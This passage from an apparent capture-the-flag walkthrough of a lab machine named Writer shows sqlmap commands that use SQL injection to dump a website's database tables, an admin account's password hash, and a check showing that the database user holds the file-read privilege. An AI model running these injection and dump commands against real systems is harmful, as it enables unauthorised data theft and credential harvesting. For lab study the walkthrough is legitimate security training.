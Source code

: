 
Show the data in each table:

    
    
    oxdf@parrot$ sqlmap -r login.req -D writer -T site --dump
    ...[snip]...
    Database: writer
    Table: site
    [1 entry]
    +------+---------------+------------+------------------+------------+----------------------------------------------------------+
    | id   | logo          | title      | favicon          | ganalytics | description                                              |
    +------+---------------+------------+------------------+------------+----------------------------------------------------------+
    | 1    | ../img/logo.png | Story Bank | /img/favicon.ico | <blank>    | This is a site where I publish my own and others stories |
    +------+---------------+------------+------------------+------------+----------------------------------------------------------+
    ...[snip]...
    oxdf@parrot$ sqlmap -r login.req -D writer -T stories --dump
    ...[snip]...
    oxdf@parrot$ sqlmap -r login.req -D writer -T users --dump
    ...[snip]...
    Database: writer
    Table: users
    [1 entry]
    +------+------------------+--------+----------+----------------------------------+--------------+
    | id   | email            | status | username | password                         | date_created |
    +------+------------------+--------+----------+----------------------------------+--------------+
    | 1    | admin@writer.htb | Active | admin    | 118e48794631a9612484ca8b55f622d0 | NULL         |
    +------+------------------+--------+----------+----------------------------------+--------------+
    ...[snip]...
    

I didn’t show the output for `stories`, as it was a lot, but it matched up
with the stories on the main site.

That hash doesn’t crack against any wordlists I tried.

#### Privileges

The `--privileges` flag in `sqlmap` will show that the current user can read
files:

    
    
    oxdf@parrot$ sqlmap -r login.req --privileges
    ...[snip]...
    database management system users privileges:
    [*] 'admin'@'localhost' [1]:
        privilege: FILE
    ...[snip]...
    
